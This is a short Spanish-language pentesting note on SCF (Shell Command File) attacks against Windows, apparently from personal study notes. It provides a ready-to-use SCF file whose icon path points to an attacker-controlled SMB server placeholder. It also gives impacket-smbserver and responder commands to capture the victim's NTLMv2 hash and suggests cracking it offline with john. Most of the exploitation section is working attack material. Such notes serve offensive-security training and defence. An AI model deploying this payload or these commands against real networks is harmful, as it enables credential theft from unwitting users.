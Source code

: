 -----
- Tags: #teoria #practica #explotación 
----
# SCF File Attacks 
En el contexto de **Windows**, un archvio **SCF (Shell Command File)** es un tipo de archivo de script que contiene comandos que peuden ser ejecutados por el Explorador de Windows u otros componentes del sistema operativo. Estos archivos se utilizan para automatizar tareas relacionadas con el sistema, configuraciones y operaciones en el entorno de Windows. 

-----
# Explotación 

No es nuevo que los **SCF (Shell Command FIle)** pueden ser usados para distintas operaciones. Una de estas operaciones puede permitirle al **SCF** acceder a un path de un servicio SMB permitiendo así a los atacantes capturar el hash NTLMv2.

#### File.scf
```scf
[Shell]
Command=2
IconFile=\\{our_smb_server_ip}\{folder}\test.ico
[TaskBar]
Command=ToggleDesktop
```
Una vez creado el archivo, al momento de ser ejecutado intentará cargar un icono desde el recurso indicado, por lo que desde nuestra máquina de atacante podríamos crear un servidor SMB o estar en escucha con el **responder** con el fin de capturar el hash NTLMv2.

#### impacket-smbserver
```bash
# Crear un servidor smb para recibir la petición a la hora de ejecutar el archivo
impacket-smbserver -smb2support smbFolder $(pwd)
```
#### responder
```bash
responder -w --lm -v -I {interfaz}
```
Una vez capturado el hash, solo queda intentar crackearlo de manera ofline con herramientas como **john**.